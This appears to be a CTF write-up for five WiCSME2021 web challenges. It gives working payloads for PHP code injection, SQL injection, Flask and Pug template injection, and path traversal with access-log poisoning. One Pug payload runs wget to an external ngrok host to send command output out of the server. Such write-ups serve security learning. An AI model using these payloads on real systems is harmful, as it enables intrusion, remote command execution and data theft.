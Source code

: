 # WiCSME2021 CTF

# web challenges:

## 1- SimPlay
![Screenshot at 2021-11-25 19-26-09](https://user-images.githubusercontent.com/52857059/143482771-46d1f5ad-c4c8-4667-882a-6d2c23525010.png)

After clicking the Try Again button :

![Screenshot at 2021-11-25 19-32-26](https://user-images.githubusercontent.com/52857059/143484789-d5764601-d715-4dda-87f6-225147275112.png)

I try php code injection ${system('ls')}

![Screenshot at 2021-11-25 19-35-36](https://user-images.githubusercontent.com/52857059/143484816-0131587c-3d6c-43f1-b947-5afac58b96ae.png)

It works But I can't find flag file.
let's try another payload with base64_decode function --> ${system(base64_decode(bHMgLi4v))}

![Screenshot at 2021-11-25 19-39-34](https://user-images.githubusercontent.com/52857059/143484886-c4cdb4ad-025d-46f2-85c7-57850b62bd3d.png)

I got flag name :")
next step , let's read flag file --> ${system(base64_decode(Y2F0IC4uL2ZsYWcq))}

![Screenshot at 2021-11-25 19-47-54](https://user-images.githubusercontent.com/52857059/143484917-bf996a6b-275b-4965-9982-0742345a348d.png)


## 2- Potent Quotes
![Screenshot at 2021-11-25 19-54-12](https://user-images.githubusercontent.com/52857059/143547317-5ee748d1-aab4-4f33-bc0e-8816ecadb6e9.png)

After downloading the files' challenge locally , I found query of input 

![Screenshot at 2021-11-26 09-53-45](https://user-images.githubusercontent.com/52857059/143547089-f06f8c4b-4749-4c33-9f31-9dc5a7249e64.png)

Let's try injecting pass input with ``` 1' or '1'='1 ```

![Screenshot at 2021-11-26 10-01-17](https://user-images.githubusercontent.com/52857059/143547148-b89b03d8-01be-44c9-97ef-8640261a8e0e.png)


## 3- INCEPTION(easy)
![Screenshot at 2021-11-26 10-04-55](https://user-images.githubusercontent.com/52857059/143547836-fcee23ee-9792-461d-90ca-799a392a5460.png)

After downloading the files' challenge locally ,I noticed The application use template Engine .
I used template injection in python because the application was made with flask.

![Screenshot at 2021-11-26 10-07-03](https://user-images.githubusercontent.com/52857059/143549346-bbbcb5dd-9b70-4215-9bec-90de69252b20.png)

I noticed also The flag in the config so the payload is ```{{config.items()}}```

![Screenshot at 2021-11-26 10-19-37](https://user-images.githubusercontent.com/52857059/143549374-639f8833-23a9-4695-9c45-2b810932b34d.png)

HTB{r3s3rv4t1on_t0_h311_1s_a11_s3t!}

## 4- IMF - Landing
![Screenshot at 2021-11-26 10-22-39](https://user-images.githubusercontent.com/52857059/143550824-7b43ab7e-56f6-47b9-aade-9470983c48de.png)

let's try path traversal 

![Screenshot at 2021-11-26 10-23-12](https://user-images.githubusercontent.com/52857059/143551120-363c8368-05e9-407f-8147-b3cab69b1f20.png)
It works.

I noticed the server is nginx so we could read the access.log ```/var/log/nginx/access.log```

![Screenshot at 2021-11-26 10-25-59](https://user-images.githubusercontent.com/52857059/143551202-38954555-d1cd-452b-818e-2db06bcc1bd4.png)

I notices the user-agent was printed in access.log

![Screenshot at 2021-11-26 10-38-17](https://user-images.githubusercontent.com/52857059/143551771-872a1ce2-bc54-40b3-bff4-9a29529861a5.png)

let's inject the user-agent with php code injection ```<?php system('ls') ?> ```

![Screenshot at 2021-11-26 10-28-55](https://user-images.githubusercontent.com/52857059/143551895-9deb0453-0197-4ae3-9255-de6f8cca9fdf.png)

![Screenshot at 2021-11-26 10-29-32](https://user-images.githubusercontent.com/52857059/143551935-8d010c3e-b79f-42bf-951b-a7a2ea93acda.png)

Let's try ```<?php system('ls ../') ?>```

![Screenshot at 2021-11-26 10-30-40](https://user-images.githubusercontent.com/52857059/143552105-99f4c676-95a2-4fd3-9c4e-c3210e4d8a64.png)

![Screenshot at 2021-11-26 10-30-54](https://user-images.githubusercontent.com/52857059/143552132-eaf7f512-6dec-4121-a88f-d662d597ddeb.png)

With ```<?php system('cat ../flag*') ?>``` we can read the flag

![Screenshot at 2021-11-26 10-31-40](https://user-images.githubusercontent.com/52857059/143552300-c8c42619-690a-4342-a5a0-46181cd2d3fb.png)

![Screenshot at 2021-11-26 10-31-54](https://user-images.githubusercontent.com/52857059/143552310-8137f420-2872-48f9-8254-cdfddc5e1322.png)

## 5- IMF-searching
![Screenshot at 2021-11-26 10-46-06](https://user-images.githubusercontent.com/52857059/143669832-4f692f5a-95c9-4b4b-b786-71a4123b6961.png)

After downloading the files' challenge locally ,I noticed The application use pug template Engine .
so I will search about pug ssti 
I will run in the background ```sudo python3 -m http.server 80``` to recieve response
running ```run ngrok http 80``` 
the payload is ```#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('wget http://ea4a-154-178-105-159.ngrok.io/?output=$('ls ../')')}()}```

The problem is if we do ls the first result of ls command will appear

![Screenshot at 2021-11-27 08-12-15](https://user-images.githubusercontent.com/52857059/143670460-2a3674e2-19c8-4db9-95d3-8afb4eb70cfd.png)

so let's replace ls ../ to ```ls ../flag*```
payload ```#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('wget http://ea4a-154-178-105-159.ngrok.io/?output=$('ls+../flag*')')}()}``` 

![Screenshot at 2021-11-27 08-25-10](https://user-images.githubusercontent.com/52857059/143670712-9eb3d484-133b-42af-a90d-298cc79c1d33.png)

the final payload is ```#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('wget http://ea4a-154-178-105-159.ngrok.io/?output=$('cat+../flag*')')}()}```

![Screenshot at 2021-11-27 08-24-41](https://user-images.githubusercontent.com/52857059/143670708-1e8d4c5c-12ef-4021-8e85-642396b9c009.png)









